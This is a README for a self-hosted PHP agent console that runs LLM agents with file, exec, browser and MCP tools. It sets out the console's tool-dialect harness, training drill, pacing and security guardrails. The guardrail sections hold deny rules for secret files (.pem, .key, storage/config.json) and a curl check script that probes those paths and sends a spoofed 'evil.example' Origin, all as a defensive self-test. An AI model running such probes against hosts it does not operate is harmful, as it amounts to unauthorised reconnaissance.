<!--
  Copyright 2026 M. Bryce Hudson

  Licensed under the Apache License, Version 2.0 — see LICENSE.
  SPDX-License-Identifier: Apache-2.0
-->
# 🧠 Autonomous Loop Studio

### Make any model an agent — even a small one, even the one on your laptop.

**A self-hosted agent console in plain PHP.** No Docker. No Node. No build step. No account.

Point it at a 7B on your laptop or a frontier API. Every request runs the same loop: it tries the
tool dialect that model answers, catches the near miss, retries in the next format, and keeps the
call that actually executed — then leads with that one next time. Training mode is that loop driven
to a clean score: twelve steps, 12 calls, 0 retries.

One folder of PHP and static files — drop it on the host you already pay for, double-click, and a
team of agents is running.



*Two runs of the same twelve-step training drill to auto fit the harness. The first run ends with twelve
calls, one successful retry, the error visible in the transcript. The harness has learned from its
successful retry. With training mode back on, the second run is completed without error. The harness has
been successfully custom-fitted, and your model is now an agent.*


[](https://github.com/autonomous-loop-studio/Autonomous/actions/workflows/tests.yml)

**🚀 [Quick start ↓](#-quick-start) · 🩺 [Why agents fail ↓](#why-local-agents-fail--and-what-this-does-about-it) · 🏋 [The harness ↓](#-auto-forming-harnesses-dialects--training-mode) · ✨ [Features ↓](#-whats-inside) · 🔒 [How the guards work ↓](#-security--guardrails--safe-by-construction-️) · 🧩 [Architecture ↓](#-architecture)**

---

## Run it in five minutes

**Windows** — double-click `start.bat`. First run installs Apache + PHP (no MySQL), creates your
access token, starts the server and opens the app. Later runs just start Apache.

**Linux / macOS** — `./start.sh` — or `./start.sh 8090` for another port.

Paste the token it prints into **Config → Access token**, add one provider key, and you have an
agent. Nothing ships with a key, and a fresh copy **refuses to serve** (`503`) until a token
exists — you cannot forget to set one.

Then add a provider — OpenAI, Anthropic, Google, OpenRouter, Groq, DeepSeek, xAI, Mistral,
Cerebras, Together, Perplexity, NVIDIA NIM, or **Ollama / LM Studio / vLLM** on your own LAN.

## What it is

- 🤖 **Any model, any provider.** It detects each provider's API shape *and* its tool dialect —
  JSON, Claude XML, raw tool-call tags — and remembers which one actually worked for that model.
- 🛠️ **Real tools, not chat.** Read and write files inside a jail, run allowlisted commands
  (argv only — no shell), drive a real Chrome/Edge over DevTools, commit with git, call MCP servers.
- 🕸️ **You can watch it.** A live 3D map of agents, providers and traffic; every hop also written
  out in words in a run trace; routing charts you draw instead of describing.
- 🔐 **Safe by default.** `exec`, `run_code`, the browser and the MCP server are **off** until you
  switch them on. Every write asks first. No accounts, no cloud, no telemetry.

## Why local agents fail — and what this does about it

Six failures every operator hits in the first evening, and the code path that answers each.

| The failure | What happens here |
|---|---|
| **The tool syntax is wrong** | A guessed name is repaired, not dropped — `list_agent` runs `list_agents`, a guessed wrapper parses like the real one, an invented name is still refused. A reply that looks like a call but parses to nothing is **re-taught in the next dialect** (plain → JSON → native → Claude XML) rather than becoming the answer, and the dialect that worked is remembered per provider and model. |
| **It says it wrote the file — it didn't** | Only a **named tool plus a completion verb** counts, and only when no call ran. Then the turn is contradicted in the transcript: *"⚠ No tool call ran this turn, so nothing was changed."* An agent that runs tools and writes no answer says that too, instead of a blank that reads as success. |
| **It loops and burns the budget** | A hard step ceiling and a wall-clock deadline per turn, bounded steering, an acyclic `ask_agent` chain (A→B→A is refused), and duplicate-call suppression. When a ceiling is reached the transcript names it: *"You used all N tool calls on this task."* A runaway hits a wall, not your wallet. |
| **The conversation falls out of the window** | Budgeted against the model's **real** window, then compacted: old tool exchanges keep their head and tail, the newest turns survive, oversized results are cut. A 128k model is not replayed as if it had 6k. |
| **It forgets by the next session** | Private notes plus a deliberately small shared collective, with `adopt` so a shared fact can become its own. Injected as **recollection, not instructions** — the agent reads what it learned instead of being told what to do. |
| **You can't tell whether any of it works** | A **12-step drill** in one sandbox folder, worked in order and **retried until every step passes** — never skipped. The call that actually executed is what gets remembered as the winning syntax, and the score to chase is 12 calls, 0 retries. |

If a model is capable and still useless, it is usually one of those six — and each one has a
code path here rather than a paragraph of advice.

## What it is not

Not a hosted service, not a wrapper around one vendor, not a SaaS with an account page. There is
nothing to sign up for, and the only outbound calls are the provider endpoints you configure
yourself.

## A fleet for $0

That laptop is not obsolete; it just hasn't been given a job. An 8B model and one PHP folder will
run this fleet all day at zero marginal cost — no key, no rate limit, no cap. The hosted free tiers
come second, paced to each host's real ceiling so one exhausted key does not stop the fleet.

- ⏱️ **Paced to each provider's real ceiling** — the pacer knows the host's limit (NVIDIA NIM
  40/min, Groq 30, OpenRouter 20, a default for anything unknown), and `0 = AUTO` uses it. Global,
  per-provider or per-agent, and an agent can lock its own.
- 🔑 **A 429 is not a stall** — a rate-limited key rests for 60 seconds and the next call reaches
  for another; add extra keys and the API pool rotates them after N requests.
- ♾️ **Loops that keep going** — Always-On re-prompts a standing goal on a cadence, with *max
  iterations* and *max minutes* caps, per-agent hold/release and one master kill switch.

Free tiers have daily caps, so pacing smooths bursts rather than making them infinite, and "always
on" means the host stays awake — the tab-hidden worker, or a machine that does not sleep. Against
Ollama, LM Studio or vLLM on your own box there is nothing to pace at all.

---

## A look at it

<p>


</p>
<p>


</p>

*Glass desktop and Classic (the default) · a routing chart · Brain Lab · the built-in browser.*

**[The drill, recorded](screenshots/training-mode.gif)** — a local model running the training drill
against a real folder. The attempt before this one repeated `list_dir`, `grep_code` and `exec`, and
said so in the transcript; asked to try again it ran clean, and these are the closing calls of that
run — each landing once, in order, with its own timing:

<p><a href="screenshots/training-mode-poster.png"></a></p>

*Click it for the full-size still.*

**[The whole 30 seconds, unedited ↗](https://github.com/autonomous-loop-studio/Autonomous/releases/download/v447/Training-Mode.mp4)** — the failed first pass, the correction, the `ok`, and the clean run. mp4, 43 MB — it downloads rather than streaming in the browser.

## Downloads

There is no binary to install — a release is the source folder, and "updating" is replacing its files.

| | What it is | Get it |
|---|---|---|
| **v450** — current | A fresh download boots without `storage/config.json`, and on a copy whose `storage/` is not writable it says which folder instead of handing the app a `null` config. | [Release](https://github.com/autonomous-loop-studio/Autonomous/releases/tag/v450) |
| **v449** | Updating no longer refuses to start on a hosted copy because it cannot write `.github/workflows/`. Repository metadata is skipped now; app files update as before. | [Release](https://github.com/autonomous-loop-studio/Autonomous/releases/tag/v449) |
| **v448** | The fix for **Config → Limits & Budgets → Longest single wait (seconds)** resetting itself to 0, plus the UI cache-buster that carries it to a browser which already loaded the old page. | [Release](https://github.com/autonomous-loop-studio/Autonomous/releases/tag/v448) |
| **v447** | Training mode (the twelve-step drill), the harness that learns a model's tool dialect, tunnels from Config, and the fixes that came out of testing them. This is the release carrying the **30-second drill video**. | [Release](https://github.com/autonomous-loop-studio/Autonomous/releases/tag/v447) |

Running an older copy? **Config → Updates → INSTALL UPDATE…** updates in place and keeps `storage/`.
Every release, including the open-testing builds before these two, is listed on
[Releases](https://github.com/autonomous-loop-studio/Autonomous/releases).

## Everything else, below

[Quick start](#-quick-start) · [Is it safe?](#-is-it-safe) · [What's inside](#-whats-inside) ·
[Security & guardrails](#-security--guardrails--safe-by-construction-️) ·
[Tools](#️-tools-agents-can-use) · [Routing chart](#-routing-chart) ·
[MCP](#-mcp--connect-out-to-other-servers-client) · [Tunnels](#-tunnels--take-the-mcp-server-off-lan) ·
[Architecture](#-architecture) · [Tests](#-tests) · [API](#-api-endpoints) ·
[Troubleshooting](#-troubleshooting) · [Downloads](#downloads) · [Recent releases](#-whats-new)

Everything above is the pitch. Everything below is the documentation — long, detailed, and
written for someone who has already decided to run it.

---

## 🧭 Contents

Jump straight to a section — every heading on this page is linkable; these are the ones worth a jump.

**🚀 Start here**

- [🚀 Run it in five minutes](#run-it-in-five-minutes)
- [🧭 What it is — the loop](#what-it-is)
- [🩺 Why local agents fail](#why-local-agents-fail--and-what-this-does-about-it)
- [🚫 What it isn't](#what-it-is-not)
- [💰 A fleet for $0](#a-fleet-for-0)
- [🖼️ A look at it](#a-look-at-it)
- [⬇️ Downloads](#downloads)
- [✨ What's inside](#-whats-inside)
- [🔒 Is it safe?](#-is-it-safe)
- [🖥️ Two interfaces, one switch](#️-two-interfaces-one-switch)
- [🎛️ Config → Desktop](#️-config--desktop--the-machine-room-card)

**🧠 Using the studio**

- [🔀 Routing chart](#-routing-chart)
- [🧠💉😉 Brain Lab](#-brain-lab)
- [🧪 API Lab](#-api-lab)
- [🌐 Built-in browser](#-built-in-browser--you-watch-the-agents-drive)

**🔐 Security & guardrails**

[🔐 overview](#-security--guardrails--safe-by-construction-️) · [🔑 token](#-1-the-front-door-is-locked--a-per-device-access-token) · [🚦 approvals](#-2-approvals--nothing-scary-happens-without-a-nod) · [🧾 allow/deny](#-3-allow--deny-lists--an-argv-level-bouncer) · [🧱 the jail](#-4-the-jail--a-fence-with-no-back-gate) · [🐚 no shell](#-5-no-shell-to-hijack) · [🧬 atomic edits](#-6-edits-are-atomic-or-they-dont-happen) · [🐙 git](#-7-git-runs-on-a-leash) · [🌐 SSRF](#-8-network-egress-is-fenced-ssrf-guardrails) · [🕵️ secrets](#️-9-secrets-never-appear-on-screen) · [🖼️ vision](#️-10-vision-is-safe-by-construction) · [🌐 browser gate](#-11-the-built-in-browser-is-gated-on-every-hop) · [🤝 MCP server](#-12-mcp-server--lending-tools-without-giving-away-the-house) · [🧷 injection](#-13-prompt-injection-posture) · [🚫 defaults](#-14-everything-dangerous-defaults-to-off-) · [🧯 fails closed](#-15-fails-closed-and-tells-the-truth) · [🗄️ storage](#️-16-storage-is-never-web-served--in-every-serving-mode) · [🧪 guard tests](#-17-the-guards-are-proven-not-assumed) · [🌐 no CORS](#-18-closed-by-default-in-the-browser-too) · [🖥️ programs](#️-19-opening-programs--a-name-never-a-command-line) · [🔐 masked reads](#-20-secrets--masked-going-out-restored-coming-back) · [🏠 local-only](#-21-no-token-set--this-machine-only) · [🧾 trace integrity](#-22-the-trace-is-written-by-this-app-alone) · [🧪 suite isolation](#-23-the-test-suite-cannot-touch-the-trace--or-another-files-server)

**✨ Features**

- [🖼️ Images & vision](#️-images--vision)
- [🎙️ Voice & audio](#️-voice--audio)
- [⌨️ Slash commands](#️-slash-commands)
- [♾️ Always-On](#️-always-on--the-loop-that-runs-itself)
- [❝ Global pre-prompt override](#-global-pre-prompt-override--one-instruction-for-the-whole-fleet)
- [🧭 The apps notch](#-the-apps-notch--one-thumb-to-everything)
- [🧠 The context assembler](#-the-context-assembler--native-tool-calling)
- [🛠️ Tools agents can use](#️-tools-agents-can-use)
- [🧭 The provider harness](#-the-provider-harness)
- [🧠 Dynamic tools & the learned dialect](#-dynamic-tools--the-learned-dialect)
- [🏋 Auto Forming Harnesses, Dialects & Training Mode](#-auto-forming-harnesses-dialects--training-mode)
- [⏱️ Throttle / limiter / pacer](#️-throttle--limiter--pacer)
- [🔑 API pool](#-api-pool--rotate-your-keys)
- [🌐 Proxy](#-proxy--route-every-agents-outbound-traffic)
- [📊 Metrics & 🔎 Run trace](#-metrics---run-trace)
- [🕸️ Network & topology](#️-network--topology)
- [🧮 Resource Manager](#-resource-manager--let-the-3d-graph-rest-)
- [💭 Thinking & reasoning](#-thinking--reasoning)
- [🧠 Memory](#-memory)
- [💾 Export & import](#-export--import)
- [🔁 Updates — check, download, verify, install](#-updates--check-download-verify-install)


**🔌 Integrations · 📱 Platform · 📚 Reference**

- [🔌 MCP client](#-mcp--connect-out-to-other-servers-client)
- [🖥️ MCP server](#️-mcp--let-others-connect-in-server)
- [🌐 Tunnels](#-tunnels--take-the-mcp-server-off-lan)
- [🤝 Mesh — share agents between copies](#-mesh--share-agents-between-copies)
- [📱 Android & mobile](#-android--mobile)
- [🧩 Architecture](#-architecture)
- [🧪 Tests](#-tests)
- [📋 Releasing a version](RELEASING.md)
- [🔗 API endpoints](#-api-endpoints)
- [🧯 Troubleshooting](#-troubleshooting)
- [📜 License](#-license)

---

## 🚀 Quick start

### 🪟 Windows — one click
- **`start.bat`** — the one-click launcher. First run installs XAMPP (Apache + PHP only, no MySQL), links this folder into `htdocs\router`, configures Apache, creates the access token, starts it and opens the app. Later runs just start Apache. Use this when several agents run at once: Apache is multi-threaded.
- **`start-php.bat`** — legacy built-in server (single-threaded). Fine for one agent at a time, or on machines where Apache cannot run.
- **`setup-xampp.bat`** — repair / advanced installer, used by `start.bat` automatically. Run it directly to reinstall XAMPP or pick another port (`setup-xampp.bat -Port 8090`).

 🧵**Autonomous' implementation of Apache / PHP is not single-threaded — and that is exactly the point.**
 Apache serves many requests at once (a pool of worker processes and threads), so a
 whole team of agents really does run in parallel. 
 **Autonomous ships the workaround:** one click installs XAMPP
 (Apache + PHP only), points it at a free port, loads the `mod_*` modules the
 app's `.htaccess` needs, links the folder and starts a genuinely concurrent
 server — **zero configuration, no database, nothing to hand-tune**. That is the
 mold this project breaks: a multithreaded local server, deployed in one click.
 (`start-php.bat` remains for the rare machine where Apache cannot run; it is the
 slow single-threaded fallback.)
> *PHP's own built-in server is the opposite: `php -S` is a single process,
> so one streamed model reply holds the only slot for its entire duration while
> every other agent — and the browser's own state polling — queues behind it until
> the fetch dies with `NetworkError`. Windows PHP cannot fork, and the usual
> local Windows PHP setups
> either accept that limit or expect you to install and hand-edit Apache/FPM
> yourself. *

### 🐧 Linux / macOS
```bash
./start.sh          # or ./start.sh 8090 for another port
```

### 🌍 Deploying on a real web host (Apache / nginx / IIS)

The one-folder design means `storage/` (the token, provider keys, every session
and the exec allow/deny lists) lives **inside the app folder**. That folder must
**never** be reachable over HTTP. Everything here is about keeping it that way. 🔒

The same rules also cover `tests/`: dev tooling that never runs at runtime, but
that nobody else needs to read either. The full grid — every path against every
serving mode, dotfiles and case variants included — is in
**Security & guardrails → §16**, and the rules are **tested by making the real
request** (§17). 🧪

- 🟡 **Apache** — `storage/.htaccess` and `tests/.htaccess` ship with the app and
  deny their whole folder (`Require all denied`, with a 2.2 fallback).
  `./setup-token.sh` **re-creates the storage one if a deploy lost it**. Just make
  sure `AllowOverride` lets `.htaccess` apply (the XAMPP installer sets this for
  you). The app root `.htaccess` also refuses `storage`, `logs`, `tmp`, `sessions`
  and `tests` as a path segment **at any depth** — a backup or archived copy of the
  app kept inside the web root brings its own `storage/` and `tests/`, and a copy
  made before `tests/.htaccess` existed would otherwise serve its test files in
  full. That guard is `RedirectMatch 403` (mod_alias), not a `RewriteRule`: a child
  `.htaccess` replaces its parent's per-directory rewrites, so a rewrite never sees
  the nested path, while mod_alias config merges normally.
- 🔴 **nginx** — **ignores `.htaccess` entirely**, so you *must* add the rules
  yourself. Ship the included **`nginx.example.conf`** into your `server{}` block
  (it denies `storage`, `logs`, `tmp`, `sessions` and `tests` as a path segment **at
  any depth** — so a backup or an archived copy of the app kept inside the web root
  cannot expose its own `config.json` — plus dotfiles and loose
  `.json/.log/.ini/.bak/.key/.pem` files), then `nginx -t && systemctl reload nginx`.
  A file whose *name* merely contains one of those words (`ui/js/storage.js`, `ui/js/tests.js`)
  is still served.
- 🔵 **IIS** — add a `web.config` at the app root that blocks the `storage` and
  `tests` segments, e.g.:
  ```xml
  <configuration><system.webServer><security><requestFiltering>
    <hiddenSegments>
      <add segment="storage" /><add segment="logs" /><add segment="tmp" />
      <add segment="sessions" /><add segment="tests" />
    </hiddenSegments>
  </requestFiltering></security></system.webServer></configuration>
  ```
- 🧪 **The PHP built-in server** (`start-php.bat` / `php serve.php`) already
  refuses `/storage`, `/logs`, `/tmp`, `/sessions`, `/tests` and dotfiles with a
  `403` — no config needed.
- ✅ **Verify it, don't assume it.** After any deploy, fetch
  `https://your-host/router/storage/config.json` **and**
  `https://your-host/router/tests/js/run.mjs` in a private window. You must get
  **403 / 404** for both — never JSON or source. If you do, stop and fix the rule
  above before doing anything else. 🚨

### 🔑 First run
The launchers install PHP + the extensions it needs (curl, openssl, mbstring, fileinfo, zip) without touching your own `php.ini`, bundle CA certs so HTTPS verifies, and print an **access token** once. Paste it into **Config → Access token** in the app — it saves on paste (there's no SAVE for that field, on purpose).

On Windows the app opens at `http://localhost:8080/router/` (Apache); on Linux/macOS it opens at `http://127.0.0.1:8080/`. If you miss the token, run `start.bat -Token` to print it again. Nothing ships with keys — add your own providers in the **Providers** tab.

---

## 🔒 Is it safe?

Short answer: it runs on your machine, against your keys, and every dangerous capability is off until you switch it on. The full argument is [Security & guardrails](#-security--guardrails--safe-by-construction-️) below — this is the answer to what people assume before they read it.

| If you assumed | What is actually true |
| --- | --- |
| 💸 “It phones home, or needs an account” | No accounts, no cloud service, no analytics. Plain PHP and static files on your own host; the only outbound calls are the provider endpoints **you** configure. |
| 🔑 “It ships with someone's keys” | Nothing ships with a token or a key, and a fresh copy **refuses to serve** (`503`) until `./setup-token.sh` creates one. |
| 🌍 “Any website can drive it” | Every API route is token-gated, CORS has **no wildcard**, and a copy with no token answers `403` to anything not on this machine. |
| 🐚 “The model gets a shell” | `exec` takes an **argv array** — no `sh -c`, no pipes, no redirects — matched against your allowlist *and* denylist, and it **asks first**. |
| 🗝️ “It can read my secrets” | Every path resolves through the jail, and `storage/`, `.env*`, `*.pem`, `*.key` and dotfiles are refused **even inside** an allowed root. |
| 🌐 “It can reach my network” | `fetch_url` and `http_request` refuse private and cloud-metadata hosts; the built-in browser enforces a block list on **every** navigation. |
| 🟢 “It ships switched on” | `exec`, `run_code`, the browser and the MCP server are **off by default**, auto-approve is off, and a global deny button sits in front of every write. |
| 🧪 “Those guards are just prose” | Each is tested by making the real request — `guards`, `apacheGuards`, `nginxGuards`, `secrets`, `programs`, `tls` — in the suite you can run yourself. |

> ⚖️ **What it is not:** a fence around the operator. Turn everything on, auto-approve writes and point the root at `/`, and you have built a very capable foot-gun. The design makes the safe choice the **default**, not mandatory — and it cannot read your mind. 💙

**🧪 Prove it in one command.** Point this at your own copy — every line asserts a *refusal*, so it fails loudly instead of asking you to believe the table:

```bash
BASE=https://your-host/router        # or http://127.0.0.1:8080
fail=0
code() { curl -s -o /dev/null -w '%{http_code}' "$1"; }
for p in storage/config.json storage/sessions tests/js/run.mjs .git/config; do
  c=$(code "$BASE/$p")
  case $c in
    403|404) echo "refused  $p  -> $c" ;;
    *)       echo "OPEN     $p  -> $c"; fail=1 ;;
  esac
done
# A foreign Origin must get no Access-Control-Allow-Origin back at all.
if curl -s -D - -o /dev/null -H 'Origin: https://evil.example' "$BASE/api/state" \
     | grep -qi '^access-control-allow-origin'; then
  echo "OPEN     cross-origin header returned"; fail=1
else
  echo "refused  cross-origin request"
fi
[ $fail -eq 0 ] && echo "storage, tests, dotfiles and CORS are all closed." \
              || echo "Something above is OPEN — fix it before anything else."
```

It answers `403` (or `404` behind nginx, which refuses rather than denies) for the token store, the sessions folder, the test tree and `.git` — and the API sends no cross-origin header unless you listed that origin in `ROUTER_CORS_ORIGINS`. §16 has the per-route grid and each serving mode's rules.

The API itself is deliberately not pass/fail there, because its status states *which posture you are in*: `401` when a token is set and the request omits it, `403` when the gate is off and you are calling from another machine, `503` on a fresh copy with no token at all, and `200` from this machine while a copy has no token — local-only mode working as documented, not a hole. Set a token and that last case closes.

With the tree in hand, the other one-command proof is the suite: `node tests/run.mjs` ends with *All suites passed.* or a `FAIL` line, and the guards are among the files it runs.

The same checks ship as a script, so CI or an operator never has to paste them: `./tools/check-guards.sh --serve` boots a throwaway copy of this tree and checks itself, `./tools/check-guards.sh https://your-host/router` checks a deployment, and `--token ABC` additionally requires the API to answer `200`. Exit codes are the verdict — `0` every refusal held, `1` something answered, `2` a usage or setup problem.

---
## ✨ What's inside

| | Feature | What it does |
|---|---|---|
| 🤖 | **Any model, any provider** | OpenAI, OpenRouter, NVIDIA NIM, Anthropic, Google, Groq, DeepSeek, xAI, Mistral, Cerebras, Together, Perplexity, Ollama, LM Studio, vLLM… |
| 🧭 | **Auto-fitting harness** | Detects each provider's API shape *and* tool dialect, speaks it correctly, and reads the reply back — a runner's own `output` envelope included |
| 🧠 | **Brain Lab** | Every per-agent setting, locks, memory, files and custom tools in one rail |
| 🧪 | **API Lab** | Paste a curl → get it in 10 languages → actually send it server-side |
| 🔀 | **Routing chart** | Draw workflows: agents, loops, checkpoints, delays, parallel fan-out |
| 🛠️ | **Real tools** | Files, shell, web, a code interpreter, git, editors, MCP — with timeouts that end the process instead of the turn, argv shapes models actually write, and approvals that resume the agent where it left off |
| 🚀 | **Background commands** | `exec_start` runs a server, watcher or anything that never exits and hands back a handle at once; `exec_poll` reads its output and says whether it is alive, `exec_kill` stops it |
| ⏱️ | **Pacer / limiter** | Per-key rate limiting that knows each provider's free-tier ceiling, and gives a slot back when a call is cancelled or goes out early — a learned 429 reaches callers already queued |
| 📊 | **Metrics + 🔎 trace** | Uptime, requests, tokens, budgets, and a live run timeline |
| 🗣️ | **Conversations, in words** | Every hop keeps its **text** — your prompt, the task a coordinator hands down, an agent-to-agent ask with its answer, the reply, and a question typed in the map's ASK box: a **Comms** tab beside the run trace, a per-agent **Talk / Runs** drawer (All / agent-to-agent) opened from either map, a failed ask that stays visible, and a beam you can hover to read *“A → B: …”*. |
| 📣 | **One name, the whole roster** | `ask_agent` / `tell_agent` take `"ALL"` (or `everyone` / `everybody`, any case): ask each agent in turn with replies labelled by agent, or post one instruction to every mailbox — and an agent really called "All" keeps its name |
| 🧠 | **Memory** | Private + collective long-term memory the agents actually use |
| 🔐 | **Locked down** | Access token, approvals, allow/deny lists, jailed filesystem |
| 🔒 | **Verified calls** | Model and speech calls check the peer certificate *and* the hostname — **Auto** exempts LAN and loopback so local runners keep working, **Always** / **Never** are explicit choices saved as `tls.verify`, and `tls.ca_bundle` can point at a PEM you manage yourself |
| 📌 | **Pinned certificates** | Read the chain a host actually presents, see its SHA-256, and store it in `storage/tls/trusted.pem` — every pin is listed in Config → TLS / Certificates with fingerprint, expiry and pin date, and FORGET drops one |
| ⚠️ | **Expiry warnings** | A pin inside 30 days reads *EXPIRES IN n DAYS* in the list and raises a bell notification naming the host, so a renewed server certificate is re-pinned before it becomes an outage |
| 🧭 | **Per-agent API shape** | Pin one agent's harness — OpenAI-compatible, Anthropic, Google, Ollama — instead of relying on detection |
| 🧠 | **Reasoning, in its own box** | Every shape's thinking — `reasoning_content`, Anthropic `thinking` blocks, Google `thought: true` parts, a runner's `{"type":"reasoning"}` blocks — lands in a collapsible panel on the message, and **Config → Interface** pins it Auto, always open or always collapsed |
| 🧰 | **A sandbox per agent** | Add as many jail roots as you like in Brain Lab and hand a different one to each agent; the global default stays exactly where it was. |
| 🔌 | **MCP client + server** | Connect to other MCP servers, *or* let a friend connect to you |
| 🌐 | **Tunnels** | Expose the MCP server off-LAN over ngrok / Cloudflare from Config → Tunnels — installable from the setup scripts, port-aware, URLs copied from the card — [Tunnels](#-tunnels--take-the-mcp-server-off-lan) |
